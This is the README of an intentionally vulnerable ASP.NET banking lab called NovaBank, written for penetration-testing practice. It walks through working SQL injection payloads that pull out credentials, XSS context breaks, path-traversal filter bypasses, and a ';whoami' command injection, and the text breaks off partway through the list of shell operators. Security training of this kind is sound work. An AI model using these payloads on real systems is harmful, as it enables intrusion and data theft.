

# Vulnerable API Lab

> [!WARNING]
> **Intentionally vulnerable. For local, educational use only.**
> This application contains deliberate security flaws (including remote code execution and file read/write issues). Run it only on your own machine, never expose it to a network or the internet, and never deploy it to a server.
>
> As a safety net, the code-execution endpoints (`/api/execution`, `/api/users/ping`, `/api/users/upload`) refuse requests coming from other websites in your browser or from other machines, and `AllowedHosts` is limited to `localhost`/`127.0.0.1`. The vulnerabilities themselves stay fully exploitable from curl, Burp Suite and the NovaBank frontend.

Intentionally vulnerable full-stack banking-style web application and REST API built for penetration testing, exploitation, remediation, retesting, and security testing practice.

The project simulates a small banking application called **NovaBank** and is progressively developed to contain common web application and API security vulnerabilities.

<p align="center">
  
</p>
<p align="center"><em>The NovaBank login page: the entry point of the lab's attack surface.</em></p>

The goal is to follow a realistic penetration testing workflow rather than simply identifying vulnerabilities.

```text
Build
  ↓
Understand Application
  ↓
Identify Attack Surface
  ↓
Hypothesize
  ↓
Test
  ↓
Confirm Vulnerability
  ↓
Exploit
  ↓
Assess Impact
  ↓
Remediate
  ↓
Retest
```

---

## Overview

The application consists of:

- ASP.NET Core Web API
- C#
- Entity Framework Core
- SQLite
- JavaScript frontend
- JWT authentication
- Role-based authorization
- REST-style API endpoints
- User management functionality
- Banking-style account dashboard
- Transfers
- Transaction history
- Security Center
- Document upload functionality
- Intentionally vulnerable security-testing components

The project is designed as a practical penetration testing laboratory where vulnerabilities are intentionally introduced, manually tested, exploited, remediated, and retested.

The application combines backend API security testing with browser-based application testing.

The frontend provides a realistic attack surface for testing:

- Authentication
- Authorization
- Session behavior
- API requests
- Object-level access control
- Input validation
- File upload functionality
- XSS
- CSRF
- Transaction functionality
- Browser DevTools
- Burp Suite interception
- Clickjacking
- Path/Directory Traversal

---

# Application Architecture

```text
Browser
   │
   ▼
NovaBank JavaScript Frontend
   │
   │ HTTP Requests
   ▼
ASP.NET Core Web API
   │
   ├── Authentication / Authorization
   │
   ├── User Management
   │
   ├── Transactions
   │
   ├── File Upload
   │
   ├── SQL Injection Training
   │
   ├── Security Testing Endpoints
   │
   └── Entity Framework Core
             │
             ▼
           SQLite
```

The application is intentionally designed so that security testing can be performed from the perspective of both authenticated and unauthenticated users.

---

# Request Flow

The application follows a simple HTTP request flow:

```text
Browser
   ↓
HTML / CSS / JavaScript
   ↓
Fetch API
   ↓
HTTP Request
   ↓
ASP.NET Core
   ↓
Controller
   ↓
Application Logic
   ↓
Entity Framework Core / Direct SQL
   ↓
SQLite
   ↓
HTTP Response
   ↓
Browser
```

Example login flow:

```text
User clicks Login
       ↓
app.js event handler
       ↓
fetch()
       ↓
POST /api/auth/login
       ↓
AuthController
       ↓
AppDbContext
       ↓
SQLite
       ↓
Credentials validated
       ↓
JWT generated
       ↓
JSON response
       ↓
JavaScript stores token
       ↓
Authenticated API requests
```

Understanding this flow is important during penetration testing because it allows the tester to identify where attacker-controlled input enters the application and where it is ultimately processed.

---

# Security Testing Methodology

Security testing is performed manually using:

- Browser
- Browser DevTools
- Burp Suite
- curl
- Manual HTTP requests
- JWT inspection
- Request / response analysis
- Database behavior analysis
- Source-code review
- Controlled exploitation

The general methodology is:

```text
Understand Application
        ↓
Identify Attack Surface
        ↓
Identify Input
        ↓
Understand Data Flow
        ↓
Create Hypothesis
        ↓
Establish Baseline
        ↓
Test
        ↓
Confirm Vulnerability
        ↓
Exploit
        ↓
Assess Impact
        ↓
Remediate
        ↓
Retest
```

The project focuses on understanding:

- Why a vulnerability exists
- Where attacker-controlled input enters
- How the input travels through the application
- Which component processes the input
- Which parser interprets the input
- Where the final security decision occurs
- What the final sink is
- What impact the vulnerability creates
- How the vulnerability can be remediated
- How the remediation can be verified

---

# Security Testing Coverage

## 21 / 21 Checked

| # | Finding | Status |
|---|---|---|
| 01 | BOLA / IDOR | ✅ |
| 02 | Mass Assignment | ✅ |
| 03 | Privilege Escalation | ✅ |
| 04 | Information Disclosure | ✅ |
| 05 | SQL Injection | ✅ |
| 06 | Stored XSS | ✅ |
| 07 | Reflected XSS | ✅ |
| 08 | DOM XSS | ✅ |
| 09 | JavaScript-Context XSS | ✅ |
| 10 | HTML-Context XSS | ✅ |
| 11 | Path Traversal | ✅ |
| 12 | Command Injection | ✅ |
| 13 | Insecure File Upload | ✅ |
| 14 | Upload Filename Path Traversal | ✅ |
| 15 | Server-Side Code Execution | ✅ |
| 16 | Missing Rate Limiting | ✅ |
| 17 | JWT Security Testing | ✅ |
| 18 | Hardcoded JWT Secret | ✅ |
| 19 | CSRF | ✅ |
| 20 | SSRF | ✅ |
| 21 | Race Condition (non-atomic balance transfer) | ✅ |

# Additional Advanced Browser-Security Training

The project also contains a dedicated browser-security laboratory covering Clickjacking scenarios that are kept separate from the core 20-finding table.

```text
✅ Basic Clickjacking
✅ Prefilled-Input Clickjacking
✅ Transparent / Invisible iframe
✅ Frame Busting testing
✅ iframe sandbox testing
✅ DOM XSS + Clickjacking
✅ Multistep Clickjacking
✅ Card-data disclosure simulation using fake laboratory data
```

---

# API Endpoints

| Method | Endpoint | Description |
|---|---|---|
| POST | `/api/auth/register` | Register a new user |
| POST | `/api/auth/login` | Authenticate and receive JWT |
| GET | `/api/users` | Retrieve users |
| GET | `/api/users/{id}` | Retrieve a user by ID |
| POST | `/api/users` | Create a user |
| PUT | `/api/users/{id}` | Update a user |
| DELETE | `/api/users/{id}` | Delete a user |
| GET | `/api/users/search` | Search users by username |
| GET | `/api/sqli/basic` | In-band SQL Injection training |
| GET | `/api/sqli/blind` | Conditional Response Blind SQLi |
| GET | `/api/sqli/error` | Conditional Error SQLi |
| GET | `/api/users/reflect` | Reflected XSS testing |
| GET | `/api/users/js` | JavaScript-context XSS testing |
| GET | `/api/users/file` | File retrieval |
| GET | `/api/pathtraversal/file` | Basic Path Traversal + URL decode testing |
| GET | `/api/pathtraversal/file-nonrecursive` | Non-recursive traversal stripping |
| GET | `/api/pathtraversal/file-startvalidation` | Start-of-path validation testing |
| GET | `/api/pathtraversal/file-extension` | File-extension validation + null-byte testing |
| GET | `/api/users/ping` | Command Injection testing |
| POST | `/api/users/upload` | File upload |
| GET | `/api/users/fetch` | Server-side URL fetching / SSRF |
| POST | `/api/csrf/login` | Cookie-based CSRF demonstration login |
| POST | `/api/csrf/change-email` | CSRF testing endpoint |
| GET | `/api/transactions` | Retrieve transaction history |
| POST | `/api/transactions` | Create transaction / transfer |
| POST | `/api/execution/run` | Controlled server-side C# execution |
| POST | `/api/clickjacking/login` | Clickjacking lab cookie-based login |
| GET | `/api/clickjacking/csrf` | Retrieve CSRF token for Clickjacking lab |
| POST | `/api/clickjacking/change-email` | Clickjacking sensitive action |
| POST | `/api/clickjacking/card/open` | First step of multistep card scenario |
| POST | `/api/clickjacking/card/reveal` | Second step of multistep card scenario |

---

# Authentication & Authorization

The application uses JWT-based authentication.

Testing included:

- Authentication flow
- JWT acquisition
- JWT inspection
- Bearer token handling
- Role-based authorization
- `401 Unauthorized`
- `403 Forbidden`
- JWT claim inspection
- JWT payload manipulation
- Signature validation
- Authorization boundary testing
- Privilege escalation

Authentication and authorization are treated as separate concepts:

```text
Authentication
     ↓
"Who are you?"
     ↓
JWT
     ↓
Authorization
     ↓
"What are you allowed to do?"
```

---

# 01 — BOLA / IDOR

Broken Object Level Authorization was tested by manipulating object identifiers supplied by the client.

Testing demonstrated that an authenticated low-privileged user could interact with another user's object by changing the object ID.

Example:

```http
GET /api/users/3
```

Testing flow:

```text
Authenticated User
        ↓
Access Own Object
        ↓
Change Object ID
        ↓
Access Another Object
        ↓
Unauthorized Access
```

The testing demonstrated unauthorized:

- Data access
- Data modification
- Object deletion

Root cause:

```text
Authentication was implemented
        +
Object-level authorization was insufficient
```

---

# 02 — Mass Assignment

Mass Assignment was tested by supplying properties that should not have been controlled by the client.

The `role` property was accepted through client-controlled input.

Example:

```json
{
  "username": "nikos",
  "email": "nikos@test.local",
  "role": "admin"
}
```

Testing flow:

```text
Client-Controlled Property
        ↓
Model Binding
        ↓
Sensitive Server-Side Property
        ↓
Unauthorized State Change
```

The vulnerability demonstrated why sensitive authorization properties should not be directly bindable from untrusted client input.

---

# 03 — Privilege Escalation

Mass Assignment was used to manipulate the user's authorization state.

A normal user role was changed to:

```text
admin
```

A fresh login then generated a JWT containing the administrative role.

Testing flow:

```text
Normal User
     ↓
Manipulate Role
     ↓
Role becomes admin
     ↓
Fresh Login
     ↓
JWT with admin role
     ↓
Administrator-only functionality
```

This demonstrated a privilege escalation chain originating from unsafe client-controlled authorization data.

---

# 04 — Information Disclosure

API responses were tested for excessive exposure of sensitive information.

Sensitive user fields were exposed in API responses, including plaintext passwords.

Example:

```json
{
  "id": 3,
  "username": "george.alaman",
  "email": "alaman@example.com",
  "password": "password123",
  "role": "admin"
}
```

The upload functionality also exposed the server-side filesystem path.

Detailed development error responses exposed internal application information during SQL Injection testing.

This demonstrated why API responses should expose only the information required by the client.

---

# 05 — SQL Injection

SQL Injection is implemented through a dedicated training laboratory in:

```text
Controllers/SqliController.cs
```

The SQL Injection laboratory contains separate endpoints for different SQLi techniques:

```text
/api/sqli/basic
/api/sqli/blind
/api/sqli/error
```

The laboratory was designed to reproduce a realistic SQL Injection methodology rather than rely on isolated payloads.

---

# SQL Injection Classification

```text
SQL Injection
│
├── In-Band
│   └── UNION-Based / Data Extraction
│
└── Blind
    ├── Conditional Response
    ├── Conditional Error
    ├── Time-Based
    └── OAST / Out-of-Band
```

Current laboratory coverage includes:

- In-Band SQL Injection
- UNION-Based SQL Injection
- Conditional Response Blind SQLi
- Conditional Error SQLi
- Password length enumeration
- Character-by-character extraction methodology
- Burp Intruder-based enumeration

---

# SQL Injection — In-Band / UNION-Based

Dedicated endpoint:

```http
GET /api/sqli/basic?userInput=
```

The endpoint intentionally constructs SQL using user-controlled input.

Conceptual flow:

```text
User Input
    ↓
SQL Query Construction
    ↓
SQLite
    ↓
Query Result
    ↓
HTTP Response
```

---

## SQLi Baseline

Baseline:

```http
GET /api/sqli/basic?userInput=nikos
```

The endpoint returned the matching database record.

---

## SQLi Detection

A single quote was supplied to determine whether user-controlled input could alter SQL syntax.

A server-side SQL error was observed.

This provided an initial SQL Injection indicator.

---

## Boolean Testing

TRUE and FALSE conditions were compared:

```sql
' OR 1=1 --
```

```sql
' OR 1=2 --
```

The TRUE condition returned database records while the FALSE condition returned no matching records.

This demonstrated that attacker-controlled input could modify the SQL statement's logic.

---

## Column Count Enumeration

`ORDER BY` enumeration was used to determine the number of columns returned by the original query.

Example:

```text
ORDER BY 1 → 200
ORDER BY 2 → 200
ORDER BY 3 → 200
ORDER BY 4 → 200
ORDER BY 5 → 200
ORDER BY 6 → 500
```

The original query was therefore determined to return:

```text
5 columns
```

---

## UNION-Based Testing

After determining the column count, `UNION SELECT` was used with five result positions.

Example:

```sql
UNION SELECT 1,2,3,4,5
```

The key requirement is:

```text
Original SELECT
      +
Injected SELECT
      ↓
Same number of columns
```

The UNION output was then used to map which result positions were visible through the API response.

---

## SQLite DBMS Fingerprinting

A SQLite-specific function was tested:

```sql
sqlite_version()
```

The response exposed the SQLite version used by the application.

This allowed DBMS-specific SQL syntax and enumeration techniques to be selected.

---

## SQLite Table Enumeration

SQLite metadata was enumerated through:

```sql
SELECT name
FROM sqlite_master;
```

The SQLi lab exposed application database objects including:

```text
Users
Transactions
__EFMigrationsHistory
__EFMigrationsLock
sqlite_sequence
```

---

## SQLite Column Enumeration

The `Users` table structure was enumerated using:

```sql
SELECT name
FROM pragma_table_info('Users');
```

The identified columns included:

```text
Id
Username
Email
Password
Role
```

---

## Data Extraction

After identifying the target table and columns, data was extracted through the reflected UNION position.

SQLite string concatenation was used:

```sql
' UNION SELECT username || ':' || password,
NULL,
NULL,
NULL,
NULL
FROM Users--
```

The values were returned directly inside the HTTP response.

Completed workflow:

```text
Detect SQLi
    ↓
Determine Column Count
    ↓
UNION Testing
    ↓
DBMS Fingerprinting
    ↓
Table Enumeration
    ↓
Column Enumeration
    ↓
Data Extraction
    ↓
Impact Assessment
```

---

## SQLi Remediation

The original `/api/users/search` SQL Injection implementation constructed SQL through direct string interpolation.

The vulnerable query was replaced with a parameterized query using:

```text
SqliteParameter
```

The original injection payload was then used during retesting.

The dedicated `/api/sqli/basic` endpoint remains intentionally vulnerable for continued training.

---

# SQL Injection — Conditional Response Blind SQLi

Dedicated endpoint:

```http
GET /api/sqli/blind?userInput=
```

This endpoint demonstrates Blind SQL Injection where the database output itself is not returned directly.

The vulnerable query is conceptually:

```sql
SELECT 1
FROM Users
WHERE Username = 'USER_INPUT'
LIMIT 1
```

The application transforms the database result into different response bodies.

---

## Conditional Response Oracle

TRUE response:

```text
You've found me!
```

FALSE response:

```text
Nothing found.
```

Therefore:

```text
TRUE
 ↓
"You've found me!"
```

```text
FALSE
 ↓
"Nothing found."
```

The application becomes a TRUE/FALSE oracle.

---

## Boolean Testing

TRUE condition:

```sql
' OR 1=1 --
```

FALSE condition:

```sql
' OR 1=2 --
```

This produced different application behavior.

The exercise demonstrated that Blind SQLi can be exploited even when the database result is not directly visible.

---

## EXISTS Enumeration

`EXISTS()` was used to ask the database whether a specific user existed.

Example:

```sql
EXISTS(
    SELECT 1
    FROM Users
    WHERE username='nikos'
)
```

The application behavior then revealed whether the database condition was TRUE or FALSE.

Conceptual model:

```text
Database Information
       ↓
TRUE / FALSE Condition
       ↓
Application Logic
       ↓
Different Response
       ↓
Information Enumeration
```

---

## Password Length Enumeration

The password length was tested using:

```sql
LENGTH(password)
```

Example condition:

```sql
LENGTH(password)=11
```

The response behavior was used as the oracle.

The training account's password length was successfully established as:

```text
11 characters
```

---

## Character Extraction

After determining the password length, character-by-character extraction can be performed using:

```sql
SUBSTR(password,POSITION,1)
```

Example:

```sql
SUBSTR(password,1,1)='a'
```

The logic is:

```text
Correct Character
      ↓
Condition TRUE
      ↓
TRUE Response
```

```text
Incorrect Character
      ↓
Condition FALSE
      ↓
FALSE Response
```

The same process is repeated for:

```text
Position 1
Position 2
Position 3
...
Position N
```

---

## Burp Intruder Character Enumeration

Burp Intruder can automate the character testing.

Typical character set:

```text
a
b
c
d
e
...
z
0
1
2
...
9
```

The tester places the Intruder payload marker around the character being tested.

Conceptually:

```text
SUBSTR(password,1,1)='§a§'
```

The response that matches the TRUE indicator identifies the tested character.

The process is then repeated for each password position.

```text
Position 1
   ↓
Find Character
   ↓
Position 2
   ↓
Find Character
   ↓
Position 3
   ↓
...
   ↓
Full Value
```

---

# SQL Injection — Conditional Error-Based SQLi

Dedicated endpoint:

```http
GET /api/sqli/error?trackingId=
```

This endpoint was designed to reproduce a PortSwigger-style tracking parameter context while using SQLite-compatible syntax.

The vulnerable query is conceptually:

```sql
SELECT 1
FROM Users
WHERE Username = 'USER_INPUT'
LIMIT 1
```

The attacker-controlled input is inserted inside a single-quoted SQL string.

---

## Error-Based SQLi Methodology

The laboratory follows:

```text
Confirm SQL Injection
        ↓
Understand SQL Context
        ↓
Confirm Injected SQL Execution
        ↓
Confirm Users Table
        ↓
Create Conditional Error Oracle
        ↓
Identify Target User
        ↓
Determine Password Length
        ↓
Extract Characters
        ↓
Automate with Burp Intruder
```

---

## Confirm SQL Injection

Initial test:

```text
'
```

The input produced a SQLite syntax error.

This confirmed that the attacker-controlled value could break the original SQL context.

---

## Understand SQL Context

The vulnerable structure is conceptually:

```sql
SELECT 1
FROM Users
WHERE Username = 'USER_INPUT'
LIMIT 1
```

The input therefore enters inside:

```text
'...'
```

Understanding this context is essential when adapting SQL Injection payloads.

---

## Confirm Injected SQL Execution

A non-existent table was referenced:

```sql
' AND (SELECT 1 FROM not_a_real_table)--
```

The database returned an error indicating that the table did not exist.

This demonstrated that injected SQL was actually executed.

---

## Confirm the Real Users Table

The following test was then used:

```sql
' AND (SELECT 1 FROM Users LIMIT 1)--
```

The request completed successfully.

This confirmed that:

```text
Users table exists
```

and that the injected subquery could reference it.

---

# Conditional Error Oracle

Some SQL Injection labs use Oracle-specific error syntax.

The local project uses SQLite, therefore a SQLite-specific error trigger was implemented.

The laboratory uses:

```sql
abs(-9223372036854775808)
```

which produces an integer overflow in SQLite.

The expression is placed inside a `CASE` condition:

```sql
CASE
    WHEN condition
    THEN abs(-9223372036854775808)
    ELSE 1
END
```

The result is:

```text
Condition TRUE
      ↓
Integer Overflow
      ↓
HTTP 500
```

and:

```text
Condition FALSE
      ↓
ELSE 1
      ↓
HTTP 200
```

Therefore the lab provides:

```text
500 = TRUE
200 = FALSE
```

---

## TRUE / FALSE Verification

TRUE condition:

```sql
1=1
```

Result:

```text
HTTP 500
SQLite integer overflow
```

FALSE condition:

```sql
1=2
```

Result:

```text
HTTP 200
Request processed.
```

This established a reliable conditional-error oracle.

---

## Target User Identification

`EXISTS()` was then used to test whether a specific user existed.

Example:

```sql
EXISTS(
    SELECT 1
    FROM Users
    WHERE username='nikos'
)
```

For an existing user:

```text
TRUE
 ↓
500
```

For a non-existing user:

```text
FALSE
 ↓
200
```

This demonstrates how a database condition can be converted into an HTTP status-code signal.

---

## Password Length Enumeration

After confirming the target account, the password length was checked using:

```sql
LENGTH(password)
```

Example:

```sql
SELECT LENGTH(password)
FROM Users
WHERE username='nikos'
```

The conditional-error oracle was then used to test candidate length values.

The target training account was confirmed to have:

```text
11 characters
```

---

## Character Extraction

The next stage uses:

```sql
SUBSTR(password,POSITION,1)
```

Example:

```sql
SUBSTR(password,1,1)='a'
```

The logic is:

```text
Correct character
      ↓
Condition TRUE
      ↓
500
```

```text
Incorrect character
      ↓
Condition FALSE
      ↓
200
```

The same test can be repeated for:

```text
Position 1
Position 2
Position 3
...
Position 11
```

---

## Burp Intruder Extraction

The character extraction process can be automated with Burp Intruder.

Example conceptual condition:

```sql
SUBSTR(password,1,1)='§a§'
```

Payload set:

```text
a-z
0-9
```

Detection:

```text
HTTP 500
    ↓
Condition TRUE
    ↓
Character matched
```

```text
HTTP 200
    ↓
Condition FALSE
    ↓
Character did not match
```

The same Intruder methodology can then be repeated for every character position.

This creates the complete extraction workflow:

```text
Find Length
    ↓
Position 1
    ↓
a-z / 0-9
    ↓
Find Character
    ↓
Position 2
    ↓
a-z / 0-9
    ↓
Find Character
    ↓
...
    ↓
Full Value
```

---

# SQL Injection Pentester Methodology

The SQL Injection exercises are designed around the following questions:

```text
Where does my input enter?
        ↓
What SQL context is it inside?
        ↓
Can I alter the query logic?
        ↓
What signal can I observe?
        ↓
Can I determine the DBMS?
        ↓
Can I determine the column count?
        ↓
Can I enumerate tables?
        ↓
Can I enumerate columns?
        ↓
Can I extract data?
        ↓
What is the security impact?
```

The three primary SQLi techniques practiced are:

```text
UNION-Based
    ↓
Direct data extraction

Conditional Response
    ↓
TRUE / FALSE via application behavior

Conditional Error
    ↓
TRUE / FALSE via database errors
```

The overall SQL Injection workflow is:

```text
Detection
   ↓
Confirmation
   ↓
Context Identification
   ↓
DBMS Identification
   ↓
Enumeration
   ↓
Extraction
   ↓
Impact Assessment
   ↓
Remediation
   ↓
Retesting
```

---

# 06 — Stored XSS

Stored Cross-Site Scripting was tested by storing attacker-controlled input in application data.

The malicious value was stored in the database and later returned through an API response.

The frontend initially rendered the returned value through an unsafe HTML sink.

Testing flow:

```text
Attacker Input
      ↓
Database
      ↓
API Response
      ↓
Frontend
      ↓
innerHTML
      ↓
Browser HTML Parsing
      ↓
JavaScript Execution
```

The vulnerable rendering was later remediated and retested.

---

# 07 — Reflected XSS

Endpoint:

```http
GET /api/users/reflect?input=
```

A controlled value was reflected into the HTTP response.

A malicious HTML payload was then supplied.

The browser interpreted the reflected markup and executed the controlled JavaScript payload.

Testing flow:

```text
Request
   ↓
Server
   ↓
HTTP Response
   ↓
Browser
   ↓
HTML Parsing
   ↓
Execution
```

---

# 08 — DOM XSS

A dedicated DOM XSS flow was introduced into the frontend.

The application reads attacker-controlled input from the URL fragment:

```javascript
const domInput =
    decodeURIComponent(window.location.hash.substring(1));
```

The value was then inserted into the DOM using:

```javascript
profileResult.innerHTML += domInput;
```

Source-to-sink flow:

```text
URL Fragment
     ↓
window.location.hash
     ↓
decodeURIComponent()
     ↓
domInput
     ↓
innerHTML
     ↓
Browser DOM
     ↓
HTML Parsing
     ↓
JavaScript Execution
```

The vulnerability was later remediated and retested.

---

# 09 — JavaScript-Context XSS

Endpoint:

```http
GET /api/users/js?name=
```

The supplied value was reflected inside a JavaScript string.

Example response structure:

```javascript
<script>
let username = "USER_INPUT";
</script>
```

A controlled payload was used to escape the JavaScript string context.

Conceptually:

```javascript
<script>
let username = "";alert(1);//";
</script>
```

The exercise demonstrated:

```text
JavaScript Context
        ↓
Break String
        ↓
Inject JavaScript
        ↓
Execution
```

The key lesson is:

```text
XSS payload construction depends on the output context.
```

---

# 10 — HTML-Context XSS

The reflected endpoint was also used to test direct HTML interpretation.

The browser parsed attacker-controlled markup in the HTML response.

Testing flow:

```text
Input
  ↓
HTML Response
  ↓
HTML Parser
  ↓
DOM
  ↓
Event Handler
  ↓
JavaScript Execution
```

This exercise was used to distinguish HTML-context XSS from JavaScript-context XSS.

---

# XSS Methodology

XSS was analyzed according to both delivery mechanism and execution context.

## Delivery Type

```text
Reflected

Request → Response → Browser

Stored

Request → Database → Response → Browser

DOM

Attacker Input → JavaScript → DOM Sink → Browser
```

## Context

Examples include:

```text
HTML Context
Attribute Context
JavaScript Context
URL Context
DOM Context
```

The core pentesting questions are:

```text
Where does attacker-controlled input originate?
        ↓
How does it travel?
        ↓
Which component processes it?
        ↓
What parser interprets it?
        ↓
What is the final sink?
        ↓
Can the browser execute attacker-controlled code?
```

---

# 11 — Path Traversal

Path Traversal was expanded into a dedicated local training laboratory in:

```text
Controllers/PathTraversalController.cs
```

The laboratory uses a controlled filesystem layout:

```text
vulnerable-api/
│
├── path-lab/
│   └── inside.txt
│
└── lab-secret
```

The intended filesystem directory is:

```text
/.../vulnerable-api/path-lab/
```

The security objective is to determine whether attacker-controlled input can escape this intended directory and access a file outside its boundary.

## Vulnerability Root Cause

The vulnerable file-read flow allows user-controlled input to influence a filesystem path:

```text
User-Controlled filename
        ↓
Path.Combine(baseDirectory, filename)
        ↓
File.Exists()
        ↓
File.ReadAllText()
```

The core issue is insufficient path validation and boundary enforcement.

In security terms:

```text
Path Traversal (CWE-22)

User-controlled input reaches a filesystem path without proper
canonicalization and boundary validation.
```

The intended boundary is the `path-lab` directory. Traversal sequences such as `..` can cause the resolved filesystem path to move into the parent directory.

**Important distinction:**

```text
Endpoint
    ↓
The API entry point
    ↓
Vulnerability
    ↓
The insecure filesystem handling behind the endpoint
    ↓
Attack Technique
    ↓
The payload or bypass used to exploit the weakness
```

---

## Path Traversal — Baseline

Endpoint:

```http
GET /api/pathtraversal/file?filename=
```

Baseline request:

```http
GET /api/pathtraversal/file?filename=inside.txt
```

Expected result:

```text
200 OK
PATH_TRAVERSAL_INSIDE
```

This confirms normal file retrieval inside the intended directory.

---

## Basic Relative Path Traversal

A relative traversal sequence was used:

```http
GET /api/pathtraversal/file?filename=../lab-secret.txt
```

Result:

```text
200 OK
PATH_TRAVERSAL_SECRET
```

The request escaped the intended `path-lab` directory and accessed a file in the parent project directory.

Conceptually:

```text
path-lab/
    ↓ ../
vulnerable-api/
    ↓
lab-secret
```

The `..` component means "parent directory". The file itself is not moved; the filesystem path resolution moves one directory upward before resolving the remaining filename.

---

## Absolute Path Testing

The application was also tested with a full absolute filesystem path.

Example:

```http
GET /api/pathtraversal/file?filename=/Users/nikos/Development/vulnerable-api/lab-secret.txt
```

Result:

```text
200 OK
PATH_TRAVERSAL_SECRET
```

This demonstrated that the endpoint accepted an absolute filesystem path and did not enforce a fixed directory boundary.

---

## URL-Encoded Traversal

The traversal sequence was then URL encoded:

```http
GET /api/pathtraversal/file?filename=%2e%2e%2flab-secret.txt
```

Result:

```text
200 OK
PATH_TRAVERSAL_SECRET
```

This demonstrated that URL encoding did not prevent traversal because the encoded value was decoded before filesystem access.

---

## Double URL Encoding / Superfluous URL Decode

A naive traversal filter was introduced into the endpoint:

```csharp
if (filename.Contains("../"))
{
    return BadRequest("Path traversal detected");
}

filename = Uri.UnescapeDataString(filename);
```

The filter checks for `../` before the additional decode.

The double-encoded request was:

```http
GET /api/pathtraversal/file?filename=%25%32%65%25%32%65%25%32%66lab-secret.txt
```

The request was successfully used to bypass the filter.

Conceptual processing:

```text
%252e%252e%252f
        ↓ first URL decoding
%2e%2e%2f
        ↓ naive filter
No "../" detected
        ↓ second decode
../
        ↓
Path.Combine()
        ↓
File.ReadAllText()
        ↓
External file read
```

Result:

```text
200 OK
PATH_TRAVERSAL_SECRET
```

The vulnerability is still Path Traversal. Double URL encoding is the bypass technique.

---

## Non-Recursive Traversal Stripping

A separate endpoint was created:

```http
GET /api/pathtraversal/file-nonrecursive?filename=
```

The intentionally weak filter removes `../` only once:

```csharp
filename = filename.Replace("../", "");
```

The test payload was:

```http
GET /api/pathtraversal/file-nonrecursive?filename=....//lab-secret.txt
```

The string transformation is:

```text
....//lab-secret.txt
        ↓ remove "../" once
../lab-secret.txt
        ↓
Path.Combine()
        ↓
Parent directory traversal
```

Result:

```text
200 OK
PATH_TRAVERSAL_SECRET
```

This demonstrated why non-recursive string replacement is not a reliable security boundary.

---

## Start-of-Path Validation Bypass

A separate endpoint was created:

```http
GET /api/pathtraversal/file-startvalidation?filename=
```

The application checks:

```csharp
if (!filename.StartsWith(baseDirectory))
{
    return BadRequest("Invalid path");
}
```

The validation therefore checks only the beginning of the string.

Test request:

```http
GET /api/pathtraversal/file-startvalidation?filename=/Users/nikos/Development/vulnerable-api/path-lab/../lab-secret.txt
```

The input begins with the intended directory, so the string check succeeds.

The filesystem then resolves:

```text
path-lab/../
        ↓
vulnerable-api/
```

Result:

```text
200 OK
PATH_TRAVERSAL_SECRET
```

The security weakness is that the application validates the textual prefix rather than the final resolved path.

---

## File Extension Validation + Null Byte

The final laboratory scenario introduces a naive file-extension check.

Endpoint:

```http
GET /api/pathtraversal/file-extension?filename=
```

The application requires:

```csharp
if (!filename.EndsWith(".txt"))
{
    return BadRequest("Only .txt files are allowed");
}
```

### Baseline

```http
GET /api/pathtraversal/file-extension?filename=inside.txt
```

Result:

```text
200 OK
PATH_TRAVERSAL_INSIDE
```

### Simple Traversal Blocked

The target file `lab-secret` does not have a `.txt` extension.

Request:

```http
GET /api/pathtraversal/file-extension?filename=../lab-secret
```

Result:

```text
400 Bad Request
Only .txt files are allowed
```

### Null Byte Bypass

For the controlled laboratory, legacy null-byte truncation was intentionally simulated:

```csharp
var nullIndex = filename.IndexOf('\0');

if (nullIndex >= 0)
{
    filename = filename.Substring(0, nullIndex);
}
```

The bypass request was:

```http
GET /api/pathtraversal/file-extension?filename=../lab-secret%00.txt
```

Processing:

```text
../lab-secret%00.txt
        ↓ URL decoding
../lab-secret\0.txt
        ↓ extension validation
EndsWith(".txt") = TRUE
        ↓ simulated truncation
../lab-secret
        ↓
File.ReadAllText()
        ↓
lab-secret
```

Result:

```text
200 OK
PATH_TRAVERSAL_NULL_BYTE_SECRET
```

This scenario demonstrates the historical null-byte bypass pattern while explicitly simulating the legacy truncation behavior in the local lab.

---

## Path Traversal Testing Methodology

The laboratory follows a structured workflow:

```text
Identify File-Handling Parameter
        ↓
Establish Baseline
        ↓
Test ../
        ↓
Test Absolute Path
        ↓
Test URL Encoding
        ↓
Test Double URL Encoding
        ↓
Test Alternate Traversal Construction
        ↓
Test Validation Bypass
        ↓
Test Extension Validation
        ↓
Test Null Byte Handling
        ↓
Confirm External File Access
        ↓
Assess Impact
        ↓
Remediate
        ↓
Retest
```

Core pentesting questions:

```text
Where does attacker-controlled input enter?
        ↓
Which component processes it?
        ↓
Is the input normalized or decoded?
        ↓
Is a filesystem API reached?
        ↓
What is the intended directory boundary?
        ↓
Can the final path escape that boundary?
        ↓
Can a validation control be bypassed?
        ↓
What file can be accessed?
```

---

## Path Traversal Security Model

The central security distinction is:

```text
User Input
    ↓
Filesystem Path Construction
    ↓
Canonical / Resolved Path
    ↓
Boundary Validation
    ↓
File Access
```

A secure implementation should validate the final resolved path rather than rely only on string prefixes, naive replacements, or extension checks.

The preferred security objective is:

```text
Resolved Path
     ↓
Must remain inside
     ↓
Expected Base Directory
```

The laboratory intentionally keeps the vulnerable endpoints available so that the same attack techniques can be repeatedly tested.

---

# 12 — Command Injection

Endpoint:

```http
GET /api/users/ping?host=
```

Baseline:

```text
127.0.0.1
```

The endpoint was then tested using shell metacharacters.

Example:

```http
GET /api/users/ping?host=;whoami
```

The server executed the additional command.

Shell operators practiced included:

```text
;   command separator
